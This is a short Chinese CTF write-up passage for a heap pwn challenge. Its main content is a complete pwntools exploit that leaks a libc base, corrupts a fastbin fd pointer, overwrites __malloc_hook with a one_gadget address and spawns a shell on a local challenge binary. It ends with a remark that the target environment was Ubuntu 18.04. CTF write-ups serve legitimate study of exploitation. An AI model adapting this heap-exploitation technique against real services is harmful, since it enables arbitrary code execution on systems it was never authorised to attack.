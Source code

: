 修改fd做uaf去修改malloc_hook为one_gadget

```python
from pwn import*
context(os='linux',arch='amd64',log_level='debug')
n = process('./pwn')
elf=ELF('./pwn')
libc = elf.libc
def regs():
    n.recvuntil('name?')
    n.sendline("nepire")
def choice(idx):
    n.recvuntil('Your choice > ')
    n.sendline(str(idx))
def new(size,content):
    choice(1)
    n.recvuntil("Size >")
    n.sendline(str(size))
    n.recvuntil('Content > ')
    n.send(content)
def show():
    choice(2)

def free():
    choice(3)

def edit(size,content):
    choice(4)
    n.recvuntil("Size > ")
    n.sendline(str(size))
    n.recvuntil("Content > ")
    n.send(content)
regs()
new(0x18,'0000')
edit(0x18+7,'a'*0x18+p32(0xfe1))
new(0x1000,'1111')
new(0x68,'a'*8)
show()
libcbase = u64(n.recvuntil('\x7f')[-6:]+'\x00\x00')-0x3c5188
print hex(libcbase)
malloc_hook = libcbase + libc.sym['__malloc_hook']
one_gadget = libcbase + 0xf02a4
free()
edit(0x68,p64(malloc_hook-0x10+5-8))
new(0x68,'aaaa')
new(0x68,'aaa'+p64(one_gadget)*3)

choice(1)
n.recvuntil('>')
n.sendline('12')
n.interactive()
```
然后很蛋疼的是，我payload搓完后才有人和我说比赛的环境是18.04
本着懒但是要准确的态度重新搓了个payload
